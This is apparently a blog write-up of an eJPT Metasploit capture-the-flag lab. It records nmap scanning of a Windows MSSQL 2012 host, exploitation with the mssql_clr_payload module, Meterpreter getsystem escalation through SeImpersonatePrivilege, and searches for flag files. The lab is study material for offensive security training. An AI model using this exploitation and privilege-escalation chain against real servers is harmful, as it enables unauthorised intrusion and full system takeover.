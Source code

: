 ```yaml
---
title: "eJPT - Host & Network Penetration Testing: The Metasploit Framework CTF 1"
date: 2025-06-01 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]

---
```


### Lab Environment

In this lab environment, you will have GUI access to a Kali machine. The target machine will be accessible at **target.ine.local**.

**Objective:** Use Metasploit and manual investigation techniques to capture the following flags:

- **Flag 1:** Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
- **Flag 2:** Locate the second flag within the Windows configuration folder.
- **Flag 3:** The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.
- **Flag 4:** Investigate the Administrator directory to find the fourth flag.

# Tools

The best tools for this lab are:

- Nmap
- Metasploit Framework
- mssql

---

# Note

In this lab, the flag will follow the format: FLAG1_MD5Hash. For example, FLAG1_0f4d0db3668dd58cabb9eb409657eaa8. You need to submit only the MD5 hash string, excluding the underscore (_). For instance: 0f4d0db3668dd58cabb9eb409657eaa8.

### Question 1

---

Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.

Nmap results:

```bash
db_nmap -sV -sC target.ine.local
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 19:52 IST
[*] Nmap: Nmap scan report for target.ine.local (10.5.23.244)
[*] Nmap: Host is up (0.0028s latency).
[*] Nmap: Not shown: 991 closed tcp ports (reset)
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 1433/tcp  open  ms-sql-s           Microsoft SQL Server 2012 11.00.6020.00; SP3
[*] Nmap: | ms-sql-ntlm-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |     DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |_    Product_Version: 6.3.9600
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: | ms-sql-info:
[*] Nmap: |   10.5.23.244\MSSQLSERVER:
[*] Nmap: |     Instance name: MSSQLSERVER
[*] Nmap: |     Version:
[*] Nmap: |       name: Microsoft SQL Server 2012 SP3
[*] Nmap: |       number: 11.00.6020.00
[*] Nmap: |       Product: Microsoft SQL Server 2012
[*] Nmap: |       Service pack level: SP3
[*] Nmap: |       Post-SP patches applied: false
[*] Nmap: |     TCP port: 1433
[*] Nmap: |_    Clustered: false
[*] Nmap: | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
[*] Nmap: | Not valid before: 2025-04-05T14:15:15
[*] Nmap: |_Not valid after:  2055-04-05T14:15:15
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: | ssl-cert: Subject: commonName=WIN-5BQ22OKH4SO
[*] Nmap: | Not valid before: 2025-01-08T07:08:38
[*] Nmap: |_Not valid after:  2025-07-10T07:08:38
[*] Nmap: | rdp-ntlm-info:
[*] Nmap: |   Target_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Domain_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   DNS_Computer_Name: WIN-5BQ22OKH4SO
[*] Nmap: |   Product_Version: 6.3.9600
[*] Nmap: |_  System_Time: 2025-04-05T14:23:51+00:00
[*] Nmap: |_ssl-date: 2025-04-05T14:23:58+00:00; 0s from scanner time.
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
[*] Nmap: Host script results:
[*] Nmap: | smb-security-mode:
[*] Nmap: |   authentication_level: user
[*] Nmap: |   challenge_response: supported
[*] Nmap: |_  message_signing: disabled (dangerous, but default)
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2025-04-05T14:23:54
[*] Nmap: |_  start_date: 2025-04-05T14:15:13
[*] Nmap: | smb2-security-mode:
[*] Nmap: |   3:0:2:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 74.54 seconds
```

start the MSSQL and based on version we found i search then found these

```bash
search type:exploit name:MSSQL 2012
use exploit/windows/mssql/mssql_clr_payload
```

Changed the payload from x86 to x64 and run and gained access on target and you should find the flag1 sitting there, also can be found the flag4 on root directory (I guess if not you need to have elevated  permission to do so). 

```bash
 Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932****
```

---

### Question 2

---

Locate the second flag within the Windows configuration folder.

For this to work we need the privileged user access which we don’t have it. because the windows configureation file location is `C:\Windows\System32\config` so i got back to meterpreter and look around what are the prives we have and we do have these 

C:\Windows\System32\config 

```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

and we get to privilied use by using 

`getsystem`

This command tries to **elevate Meterpreter to SYSTEM** (the highest privilege level in Windows).

You successfully got SYSTEM:

```
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

- **Technique 5** is a known method using the **Print Spooler** service to impersonate SYSTEM via **named pipe impersonation**.
- This is possible **because you had SeImpersonatePrivilege**.

with this we gained the privilieged access and found the flag2 from the location 

```bash
C:\Windows\System32\config>type flag2.txt
type flag2.txt
24d1f54d707945009ddda8*******
```

---

### Question 3:

---

The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.

For this we need to search for flag and this requires just the search command which is

```bash
C:\Windows\system32>dir /a /s *flag*
dir /a /s *flag*
 Volume in drive C has no label.
 Volume Serial Number is 5CD6-020B

 Directory of C:\Windows\system32\drivers\etc

04/05/2025  02:16 PM                34 EscaltePrivilageToGetThisFlag.txt
               1 File(s)             34 bytes

     Total Files Listed:
               1 File(s)             34 bytes
               0 Dir(s)   3,739,594,752 bytes free

```

```bash
C:\Windows\System32\drivers\etc>type EscaltePrivilageToGetThisFlag.txt
type EscaltePrivilageToGetThisFlag.txt
84a36ae220e448538567a1aa4******
```

That’s our flag3

---

### Question4:

---

Investigate the Administrator directory to find the fourth flag.

Just going to the Administrator directory and under Desktop the flag is found!

```bash
Directory of C:\Users\Administrator\Desktop

04/05/2025  02:16 PM    <DIR>          .
04/05/2025  02:16 PM    <DIR>          ..
04/05/2025  02:16 PM                34 flag4.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,739,594,752 bytes free

C:\Users\Administrator\Desktop>type flag4.txt
type flag4.txt
6d9e3ea9d172404f95c932f8******

```